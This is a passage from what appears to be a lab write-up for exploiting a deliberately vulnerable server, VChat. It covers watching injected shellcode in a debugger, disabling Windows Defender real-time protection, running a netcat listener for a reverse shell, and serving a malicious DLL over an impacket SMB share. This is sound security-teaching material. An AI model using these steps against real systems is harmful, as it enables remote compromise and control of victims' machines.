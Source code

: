 		)
		```
2. Now, we can verify the shellcode is being transmitted properly.

	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/e40033a1-dddb-498c-82f3-305e54339134

   1. Click on the black button highlighted below, and enter in the address we decided in the previous step.

		<img src="Images/I16.png" width=600>

   2. Set a breakpoint at the desired address (right-click).

		<img src="Images/I17.png" width=600>

   3. Run the [exploit3.py](./SourceCode/exploit5.py) program until an overflow occurs (See EIP/ESP and stack changes), you should be able to tell by the black text at the bottom the screen that says `Breakpoint at ...`.

		<img src="Images/I18.png" width=600>

	4. Step into the breakpoint till you see the shellcode that has been injected into the stack! It should look familiar, you can use the *step over* button next to the *step into* function to verify our shellcode is working as expected.

		<img src="Images/I27.png" width=600>

		* *Note*: The Windows 10 machine may detect the retrieval of mal.dll from the attacker's machine and block the operation, as shown in the following image:

		![side loading issue](Images/side.png)

		* You should allow this and disable real-time protection.

			<img src="Images/I28.png" width=600>

3. Run a [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 and then run [exploit12b-MSF.py](./SourceCode/exploit6.py).

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command.
	* `-l`: Set netcat to listen for connections.
	* `v`: Verbose output.
	* `p`: Set to listen on a port, in this case port 8080.

4. If the SMB share has not been started, navigate to where your malicious DLL is located and start it.
	```
	$ sudo impacket-smbserver -smb2support ABCD .
	```
	* `sudo`: This command and operation requires root privileges to bind to the well-known SMB port 445.
	* [`impacket-smbserver`](https://www.kali.org/tools/impacket-scripts/#impacket-smbserver):  This is the command the launches a SMB server and add a share as specified.
	* `smb2support`: Enable SMB2 Support.
	* `A`: Name of the current Share. This is chosen to be short as we would complicate the shellcode generation otherwise.
	* `.`: This is the current directory we are in, we can specify a path to share a specific directory.
5. Run the [exploit5.py](./SourceCode/exploit5.py) program!
